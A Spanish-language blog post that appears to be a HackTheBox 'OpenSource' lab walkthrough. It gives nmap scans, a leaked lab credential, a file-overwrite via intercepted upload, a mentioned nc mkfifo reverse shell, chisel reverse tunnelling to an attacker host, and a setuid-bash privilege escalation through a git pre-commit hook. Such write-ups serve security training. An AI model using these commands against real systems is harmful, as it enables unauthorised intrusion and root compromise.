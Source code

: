 ```yaml
---
layout: post
title: "Write Up OpenSource. "
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Linux,Github,LFI,RCE,Chisel,CronJob,SSTI,XXE,Web,Vulnerability-Assessment,Source-Code-Analysis,Security-Tools,Git,Metasploit,Flask,Docker,Gitea,Chisel,Python,Reconnaissance,Tunneling,Password-Reuse,Port-Forwarding,Scheduled-Job-Abuse,Arbitrary-File-Upload,Directory-Traversalt,eWPT,eWPTxv2,OSWE,OSCP,eCPPTv2] 
image:
  path: /assets/img/opensource/opensource.png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.11.164 -oA allports
```


![list](/assets/img/opensource/Parrot-SO3-2022-08-24-16-10-05.png){:.lead width="800" height="100" loading="lazy"}

***

### Services and Versions


```bash
nmap -p22,8080 -sV -sC 10.10.11.170 -oN target
```

***

## Vulnerability Analysis


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros e ispeccionamos la web.


Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.


![list](/assets/img/opensource/Parrot-SO3-2022-08-24-16-07-07.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
En una seccion de la web podemos cargar un archivo. 


Whatweb identificar tecnologuias atraves del terminal o wappalizer atraves de la web.


![list](/assets/img/opensource/Parrot-SO3-2022-08-24-16-06-20.png){:.lead width="800" height="100" loading="lazy"}


Nos descargamos el codigo fuente que encontramos al inspeccionar la web.


![list](/assets/img/opensource/1.png){:.lead width="800" height="100" loading="lazy"}


Descomprimimos el zip y encontramos que hay un directorio .git, y buscando entre branchs y commits encontramos credenciales.


![list](/assets/img/opensource/Kali-2022-08-25-16-22-37.png){:.lead width="800" height="100" loading="lazy"}



{:.note}
Encontramos una credencial `dev01:Soulless_Developer#2022`. 


Si seguimos mirando en app/app/ hay un archivo views.py que es el que almacena las funciones ademas guindonos por las funciones de arriba podemos definir nuestra propia función y agregarla al final para mas adelante subirla y ejecutar comandos.


![list](/assets/img/opensource/Parrot-SO3-2022-08-24-17-48-36.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
De esta forma  podremos ver el /etc/host y tambien el /.ssh/id_rsa. 


Lo subimos desde `http://10.10.11.164/upload` pero interceptaremos con burpsuite y cambiaremos la ruta a `/app/app/views.py` para sobreescribir el actual de la máquina y damos a forward.


![list](/assets/img/opensource/Parrot-SO3-2022-08-24-18-54-52.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Si todo salió bien la función deberia de funcionar entonces nos haremos una reverse shell con `nc mkfifo`, urlencodeando lo que pueda dar problemas,levantamos un listener en el puerto 443.


Tenenos shell como root en un contenedor, pero ahora tenemos conexión con el puerto 3000 de la maquina real que veiamos filtered, asi que subiremos chisel y enviaremos el puerto a nuestro equipo local.


```bash
chisel server --reverse --port 8000
```


{:.note}
Esto en la maquina atacante.


```bash
./chisel client 10.10.16.31:8000 R:3000:172.17.0.1:3000
```


{:.note}
Esto en la maquina victima.


Si abrimos en el navegador el localhost en el puerto 3000 vemos un panel de gitea podemos 
usar las credenciales que encontramos al inicio `dev01:Soulless_Developer#2022`.


{:.note}
Ya como dev01 podemos ver un repositorio "home-backup" que tiene unas claves ssh que podemos probar para conectarnos.


![list](/assets/img/opensource/Kali-2022-08-25-16-37-32.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Buscamos la flag de en el escritorio.


***

## Explotation


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find con el siguite comado.


En [gtfobins] vemos un ejemplo abusando del pre-commit, podemos intentarlo y después de un minuto nos convertimos en root.


[gtfobins]: https://gtfobins.github.io/gtfobins/git/


```bash
echo "chmod u+s /bin/bash" >> ~/.git/hooks/pre-commit
```


{:.note}
Le damos permiso setuid.


```bash
chmod +x !$
```


{:.note}
Le damos permisos de ejecucion.


```bash
bash -p
```


{:.note}
Ya somos root, buscamos la flag en el escritorio del root.


***

```shell
🎉 Felicitaciones ya has comprometido OpenSource de HackTheBox 🎉
```
{:.centered}
***

Back to [Certification eWPT](2023-07-04-Road-to-eWPT.md){:.heading.flip-title}
{:.read-more}

***

Back to [Certification eCPPTv2](2023-07-06-Road-to-eCPPTv2.md){:.heading.flip-title}
{:.read-more}

***

Back to [Certification OSCP](2023-07-10-Road-to-OSCP.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSWE](){:.heading.flip-title}
{:.read-more}

